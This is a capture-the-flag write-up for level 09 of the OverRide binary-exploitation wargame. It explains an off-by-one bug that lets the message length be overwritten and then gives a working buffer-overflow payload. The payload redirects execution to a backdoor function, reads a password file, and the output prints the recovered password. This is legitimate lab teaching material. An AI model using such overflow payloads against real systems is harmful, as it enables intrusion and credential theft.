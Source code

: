 # Level 09

This level asks for a username then for a password, this data is stored in a
structure like this:

```c
typedef struct data {
	char	msg[140];
	char	usr[40];
	int		msg_length;
}	data;
```

The data is well written into memory, except for one little mistake.
The copy of the username (`data.usr`) is done before the message (`data.msg`).
This wouldn't be a problem, but the copying code copies one byte over the size of
the username string.

```c
for (i = 0; i <= 40 && s[i]; ++i)
	d->usr[i] = s[i];
```

The condition of the loop should be `i < 40 && s[i]` instead of `i <= 40 && s[i]`.
This little misteak makes it copy up to 41 bytes instead of 40.
The byte that is overflowing is overwriting the `data.msg_length` variable.
This is a big mistake considering that this is the variable that is checked
for the length of the message string.

```c
return strncpy(d->msg, s, d->msg_length);
```

This means that we have one byte to play with. Meaning that we can potentially
copy up to 255 bytes, this is 115 more than the intended and could cause memory
issues.

```gdb
(gdb) r < <(python -c 'print("\xff" * 2048)')
Starting program: /home/users/level09/level09 < <(python -c 'print("\xff" * 2048)')

Breakpoint 1, 0x0000555555554aac in main ()
(gdb) c
Continuing.
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, �����������������������������������������>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0xffffffffffffffff in ?? ()
```

Spot on, the program segfaults as we want. Now we need to find an address to go to.
Fortunately there is a `secret_backdoor` function that let us use a shell :)

By finding the right offset and the address of `secret_backdoor()`, we end up with
this script:

```python
python -c 'import sys; sys.stdout.write("\xff" * 128 + "o" * 140 + "\xff" * 59 + "\x8c\x48\x55\x55\x55\x55" + 
"\x00" * 2 + 815 * ";" + "cat /home/users/end/.pass")'
```

Breakdown:
- `"\xff" * 128`: Fill the `fgets` of the `get_username()` function
- `"o" * 140 + "\xff" * 59`: Overflows the `data.message` variable just before
  reaching the targeted return address.
- `"\x8c\x48\x55\x55\x55\x55" + "\x00" * 2`: The address of `secret_backdoor()`
- `815 * ";"`: Filling the buffer of the `fgets` of `set_msg()`
- `"cat /home/users/end/.pass"`: The command we want for the `secret_backdoor()` `fgets()`

```bash
level09@OverRide:~$ ./level09 < <(python -c 'import sys; sys.stdout.write("\xff" * 128 + "o" * 140 + "\xff" * 59 + "\x8c\x48\x55\x55\x55\x55" + 
  
"\x00" * 2 + 815 * ";" + "cat /home/users/end/.pass")')
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, �����������������������������������������>: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
Segmentation fault (core dumped)
```

GG !